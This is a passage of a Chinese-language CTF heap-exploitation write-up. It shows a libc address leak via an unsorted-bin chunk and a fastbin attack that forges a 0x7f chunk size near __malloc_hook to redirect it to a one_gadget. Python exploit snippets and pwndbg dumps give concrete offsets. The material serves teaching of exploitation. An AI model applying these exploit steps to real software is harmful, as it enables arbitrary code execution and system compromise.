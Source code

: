 解答：

1. 把 `e` 的 `chunk_size` 恢复即可。
2. 释放 `e` 前再多申请一个 small chunk 使得 `e` 不与 top chunk 相邻。
3. `e` 被释放后进入 unsorted bin，所以其 `fd` 与 `bk` 都指向 unsorted bin 的链表头，注意其地址到 libc 基址的偏移是固定的 `0x3c4b78`。

```python
# e->chunk_size = 0x91
payload = flat([0,0,0,0x91])
fill(3, payload)
alloc(0x80) # f5
free(4) # e, e->fd = unsorted_head

base = u64(dump(2)[:8])-0x3c4b78
```

最后的 `dump(2)` 就是打印索引为 `2` 的 chunk，也就是 `e`，从而得到 `e` 的 `fd` 和 `bk`。

之后，再次使用 fast bin attack 将 libc 中函数，例如 `__malloc_hook` 放入 fast bin，然后用 `malloc` 返回给我们，就可以实现类似 GOT 劫持的效果。`__malloc_hook` 只要非空，就会在 `malloc` 时被调用，我们让它指向 `one_gadget` 找到的一个 gadget 即可，比如可以用距离 libc 基址 0x4526a 的 gadget。

但是同样的，我们需要绕过上面的安全检查。幸运的是，该检查对于对齐没有任何要求。通过 gdb 调试我们发现在 `__malloc_hook` 附近的 `_IO_wide_data_0+304` 位置其高位字节为 `7f` 而低位字节含有连续的 `00`，因此可以通过增加一些偏移获得 `0x7f` 这个数值作为 `chunk_size`，恰好能通过检查。

如下：

```
pwndbg> x/32xg (long long)(&main_arena)-0x40
0x7f16d95deae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7f16d95deaf0 <_IO_wide_data_0+304>:	0x00007f16d95dd260	0x0000000000000000
0x7f16d95deb00 <__memalign_hook>:	0x00007f16d929fe20	0x00007f16d929fa00
0x7f16d95deb10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
```

我们加 13 字节偏移（循环右移），成功伪造 `chunk_size`：

```
pwndbg> x/32xg (long long)(&main_arena)-0x40+0xd
0x7f16d95deaed <_IO_wide_data_0+301>:	0x16d95dd260000000	0x000000000000007f
0x7f16d95deafd:	0x16d929fe20000000	0x16d929fa0000007f
0x7f16d95deb0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7f16d95deb1d:	0x0000000000000000	0x0000000000000000
```

`0x7f` 对应的 `malloc` 请求大小大约是 `0x60`。现在，freelist 顶部是 `e`，于是 `alloc(0x60)` 就会分配总大小为 `0x71`、起点与 `e` 相同、且索引为 `4` 的 chunk `g`，这时再 `free` 掉 `g` 就会使得 `g` 位于 freelist 顶部。

```python
alloc(0x60) # g4
free(4) # g
```

接下来修改索引为 `2` 的 chunk 的 `fd`（实际就是为了修改 `e` 或者说 `g` 的 `fd`）指向 `_IO_wide_data_0+301` 地址，然后第一次 `Allocate` 得到 `g` 位于索引 `5`，第二次 `Allocate` 得到指向 `_IO_wide_data_0+301` 的指针，位于索引 `6`。

```python
# g->fd = _IO()
payload = p64(base+0x3c4aed)
fill(2, payload)

alloc(0x60) # g5
alloc(0x60) # _IO()6
```
